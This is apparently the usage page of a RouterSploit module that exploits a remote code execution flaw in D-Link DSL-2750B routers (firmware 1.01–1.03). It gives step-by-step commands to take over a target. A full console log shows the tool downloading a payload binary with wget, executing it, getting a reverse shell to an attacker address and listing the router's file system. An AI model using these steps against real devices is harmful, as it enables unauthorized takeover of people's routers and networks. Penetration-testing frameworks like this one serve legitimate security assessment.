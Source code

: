 ## Description

This module exploits remote code execution vulnerability in D-Link DSL-2750B devices through "cli" parameter.
Vulnerable firmwares are 1.01 up to 1.03.

## Verification Steps

    1. Start `./rsf.py`
    2. Do: `use exploits/routers/dlink/dsl_2750b_rce`
    3. Do: `set target [TargetIP]`
    4. Do: `run`
    5. If router is vulnerable, it should be possible to execute commands on operating system level.

    6. Do: `set payload reverse_tcp`
    7. Do: `set lhost [AttackerIP]`
    8. Do: `run`
    9. Payload is sent to device and executed providing attacker with the command shell.

## Scenarios

```
rsf > use exploits/routers/dlink/dsl_2750b_rce
rsf (D-Link DSL-2750B RCE) > set target 192.168.1.1
[+] target => 192.168.1.1
rsf (D-Link DSL-2750B RCE) > run
[*] Running module...
[+] Target appears to be vulnerable

[+] Welcome to cmd. Commands are sent to the target via the execute method.
[*] For further exploitation use 'show payloads' and 'set payload <payload>' commands.

cmd > show payloads
[*] Available payloads:

   Payload         Name                   Description
   -------         ----                   -----------
   bind_tcp        MIPSBE Bind TCP        Creates interactive tcp bind shell for MIPSBE architecture.
   reverse_tcp     MIPSBE Reverse TCP     Creates interactive tcp reverse shell for MIPSBE architecture.

cmd > set payload reverse_tcp
cmd (MIPSBE Reverse TCP) > show options

Payload Options:

   Name      Current settings     Description
   ----      ----------------     -----------
   lhost                          Connect-back IP address
   lport     5555                 Connect-back TCP Port


cmd (MIPSBE Reverse TCP) > set lhost 192.168.1.4
lhost => 192.168.1.4
cmd (MIPSBE Reverse TCP) > run
[*] Using wget method
[*] Using wget to download binary
[*] Executing payload on the device
[*] Waiting for reverse shell...
[*] Connection from 192.168.1.1:41933
[+] Enjoy your shell
ls -la
drwxrwxrwx   15 admin    root           224 Mar 11  2013 .
drwxrwxrwx   15 admin    root           224 Mar 11  2013 ..
drwxr-xr-x    2 admin    root          2554 Mar 11  2013 bin
drwxr-xr-x    2 admin    root             3 Mar 11  2013 data
drwxr-xr-x    4 admin    root          2482 Mar 11  2013 dev
drwxr-xr-x   12 admin    root           779 Mar 11  2013 etc
drwxr-xr-x    6 admin    root           690 Mar 11  2013 lib
lrwxrwxrwx    1 admin    root            11 Mar 11  2013 linuxrc -> bin/busybox
drwxr-xr-x    2 admin    root             0 Jan  1  1970 mnt
drwxr-xr-x    5 admin    root            56 Mar 11  2013 opt
dr-xr-xr-x   69 admin    root             0 Jan  1  1970 proc
drwxr-xr-x    2 admin    root           270 Mar 11  2013 sbin
drwxr-xr-x   11 admin    root             0 Jan  1  1970 sys
lrwxrwxrwx    1 admin    root             8 Mar 11  2013 tmp -> /var/tmp
drwxr-xr-x    4 admin    root            38 Mar 11  2013 usr
drwxr-xr-x   16 admin    root             0 Oct 19 20:36 var
drwxr-xr-x    5 admin    root          2801 Mar 11  2013 webs
```
